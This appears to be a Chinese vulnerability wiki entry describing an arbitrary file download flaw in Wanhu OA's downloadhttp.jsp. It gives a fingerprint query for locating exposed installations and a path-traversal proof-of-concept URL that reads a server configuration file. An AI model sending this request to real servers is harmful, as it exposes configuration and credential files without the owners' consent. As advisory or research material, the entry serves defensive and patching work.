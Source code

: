 # 万户OA downloadhttp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA downloadhttp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313174643131.png)

验证POC

```javascript
/defaultroot/site/templatemanager/downloadhttp.jsp?fileName=../public/edit/jsp/config.jsp
```

![img](../../../.vuepress/public/img/1646039844800-07a00418-a36e-466c-a6ad-da6d8a9621ea.png)